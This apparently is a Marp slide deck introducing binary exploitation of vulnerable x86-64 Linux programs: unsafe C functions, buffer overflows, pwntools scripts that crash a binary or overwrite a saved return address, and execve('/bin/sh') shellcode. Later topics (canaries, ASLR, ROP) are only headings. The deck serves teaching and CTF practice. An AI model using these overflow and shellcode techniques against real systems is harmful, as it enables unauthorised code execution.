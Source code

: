 ```yaml
---
marp: true
theme: leet
---
```


# pwn

exploiting (very) vulnerable x86-64 binaries on linux

---

## c bad

- trusts you too much
  - array accesses
  - integer overflows
- mixing data and metadata
  - return addresses on stack
  - null-terminated strings
- manual {init,cleanup}
- poor type system

---

some dangerous library functions:

- `gets`
- `strcpy`
- `scanf`
- `sprintf`
- …

---

![gets deemed dangerou](./media/gets.png)

---

## buffer overflows

---

### stepping out of our lane

- causing crashes
- changing stuff on the stack
- jumping to arbitrary places in the code
  - other functions
  - middle of other functions
- running arbitrary code*

---

### causing crashes

Inputs like `AAAAAAAAAAAAAAAAAAAAAAAAAAAA…`

```py
from pwn import *

p = process("./vuln")
p.sendline(b"A" * 500) # adjust number as necessary
```

---

### changing stuff on the stack

```py
from pwn import *

padding = 64

p = process("./vuln")
p.sendline((b"A" * padding) + p32(0xDEADBEEF))
```

---

### changing (especially useful) stuff on the stack

1. set a breakpoint in the vulnerable function
2. run
3. check the addresses of
   - the vulnerable buffer
   - saved rip (`info frame`)
4. send `(b'A' * padding) + p64(spoof_return_addr)`

---

```py
from pwn import *

saved_rip_addr = 0x7fffffff...
buffer_addr = 0x7fffffff...
padding_size = saved_rip_addr - buffer_addr

spoofed_return_addr = 0x40...

p = process("./pwnable")
p.sendline((b'A' * padding_size) + p64(spoofed_return_addr))
p.interactive()
```

---

### shellcode

```
mov rax, 59
mov rbx, 0x68732f2f6e69622f
push rbx
mov rdi, rsp
mov rsi, 0
mov rdx, 0
syscall

binsh:
    .string "/bin/sh"
```

---

### read ⊕ write

---

### stack canaries

---

### aslr

---

### rop
